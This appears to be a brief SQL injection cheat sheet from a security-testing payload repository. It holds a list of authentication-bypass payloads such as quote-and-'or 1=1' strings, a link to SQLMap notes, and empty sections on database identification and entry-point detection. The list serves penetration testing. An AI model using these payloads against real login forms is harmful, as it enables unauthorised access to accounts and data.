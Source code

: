 # SQL Injection

A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application

## _Authentication Bypass_

```
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--

```

## _SQL Injection using SQLMap_
[SQL link](https://github.com/josdoaitran/PayloadForSecurityTesting/blob/master/SQLMap.md)

## _DBMS Identification_

## _Entry point detection_


# Thanks to and Reference
